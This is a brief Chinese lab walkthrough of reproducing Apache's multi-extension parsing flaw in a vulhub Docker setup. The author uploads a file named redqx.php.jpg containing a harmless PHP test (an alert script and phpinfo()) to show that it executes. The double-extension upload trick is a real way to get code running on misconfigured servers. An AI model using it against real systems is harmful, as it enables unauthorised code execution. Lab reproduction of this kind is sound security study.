 

```
cd vulhub-master/httpd/apache_parsing_vulnerability/
docker-compose up -d
```



访问

![image-20230810174741741](img/image-20230810174741741.png)

好像默认是80端口



选择上传一个文件 redqx.php.jpg

```php
<?php
       echo "<script>alert('hi redqx')</script>";
       phpinfo();
?>
```



上传成功

![image-20230810180429571](img/image-20230810180429571.png)

然后访问

![image-20230810180413420](img/image-20230810180413420.png)



然后关闭

```
docker-compose down
```

